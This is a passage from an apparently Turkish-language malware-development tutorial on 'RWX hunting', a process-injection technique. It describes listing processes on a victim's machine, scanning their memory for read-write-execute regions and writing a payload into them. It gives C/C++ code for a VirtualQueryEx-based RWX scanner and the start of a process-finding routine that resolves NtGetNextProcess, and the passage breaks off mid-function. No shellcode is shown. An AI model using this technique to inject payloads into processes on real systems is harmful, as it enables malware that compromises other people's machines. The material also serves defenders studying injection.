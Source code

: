 \newpage
\subsection{49. Kötü Amaçlı Yazılım Geliştirme Tekniği: RWX Avcılığı - Bölüm 2. Hedef Süreç Araştırma Teknikleri. Basit C/C++ örneği.}

﷽

![malware](./images/119/2024-05-02_13-59.png){width="80%"}      

Önceki yazılarımın [birinde](https://cocomelonc.github.io/tutorial/2022/02/01/malware-injection-16.html), RWX bellek arama mantığını kullanarak bir süreç enjeksiyon yöntemini açıkladım. Bugün aynı mantığı yeni bir hile ile uygulayacağım.

Hatırladığınız gibi, yöntem oldukça basit: Kurbanın sisteminde çalışan hedef süreçleri listeliyoruz, tahsis edilen bellek bloklarını tarıyoruz ve herhangi birinin RWX korumasına sahip olup olmadığını kontrol ediyoruz. Ardından payload’umuz bu bellek bloğuna yazıyoruz.      

### pratik örnek

Bugün biraz farklı bir teknik kullanacağım. Diyelim ki kurbanın makinesinde belirli bir süreci arıyoruz (enjeksiyon yapmak veya başka bir amaç için).     

Kurban sürecinden RWX bellek bölgesini avlamak için ayrı bir fonksiyon kullanalım. Şuna benzer bir şey:     

```cpp
int findRWX(HANDLE h) {

  MEMORY_BASIC_INFORMATION mbi = {};
  LPVOID addr = 0;

  // query remote process memory information
  while (VirtualQueryEx(h, addr, &mbi, sizeof(mbi))) {
    addr = (LPVOID)((DWORD_PTR) mbi.BaseAddress + mbi.RegionSize);

    // look for RWX memory regions which are not backed by an image
    if (mbi.Protect == PAGE_EXECUTE_READWRITE
      && mbi.State == MEM_COMMIT
      && mbi.Type == MEM_PRIVATE)

      printf("found RWX memory: 0x%x - %#7llu bytes region\n", 
      mbi.BaseAddress, mbi.RegionSize);
  }

  return 0;
}
```

Ayrıca, ana mantığımızda küçük bir güncelleme yapalım: Öncelikle, belirli bir sürecin tutamacını (handle) adını kullanarak arıyoruz:     

```cpp
typedef NTSTATUS (NTAPI * fNtGetNextProcess)(
  _In_ HANDLE ProcessHandle,
  _In_ ACCESS_MASK DesiredAccess,
  _In_ ULONG HandleAttributes,
  _In_ ULONG Flags,
  _Out_ PHANDLE NewProcessHandle
);

int findMyProc(const char * procname) {
  int pid = 0;
  HANDLE current = NULL;
  char procName[MAX_PATH];

  // resolve function address
  fNtGetNextProcess myNtGetNextProcess = 
  (fNtGetNextProcess) GetProcAddress(GetModuleHandle("ntdll.dll"), "NtGetNextProcess");
```